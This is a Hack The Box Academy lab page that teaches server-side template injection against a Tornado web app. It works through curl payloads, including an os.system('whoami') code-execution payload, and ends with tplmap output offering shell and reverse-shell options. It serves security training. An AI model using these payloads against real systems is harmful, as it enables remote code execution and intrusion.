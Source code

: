 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/145/section/1344
// Platform Version: V1
// Module ID: 145
// Module Name: Server-side Attacks
// Module Difficulty: Medium
// Section ID: 1344
// Section Title: SSTI Exploitation Example 2
// Page Title: Hack The Box - Academy
// Page Number: 16
-->

# SSTI Exploitation Example 2

**Module Name:** Server-side Attacks **Page Number:** 16

#### 

#### SERVER-SIDE ATTACKS

# SSTI Exploitation Example 2

![https://academy.hackthebox.com/storage/modules/145/img/tornado1.png](https://academy.hackthebox.com/storage/modules/145/img/tornado1.png)

#### cURL - Interacting with the Target

``` shell-session
[!bash!]$ curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email ${7*7} has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

#### cURL - Interacting with the Target

``` shell-session
[!bash!]$ curl -X POST -d 'email={{7*7}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

#### cURL - Interacting with the Target

``` shell-session
[!bash!]$ curl -X POST -d 'email={{7*'7'}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

``` shell-session
[!bash!]$ curl -X POST -d 'email={{_self.env.display("TEST")}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

``` shell-session
[!bash!]$ curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

``` shell-session
[!bash!]$ curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

``` shell-session
[!bash!]$ curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 0 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

#### tplmap.py

``` shell-session
[!bash!]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah

    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'email' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: email
  Engine: Tornado
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

# 

# 

#### Questions

####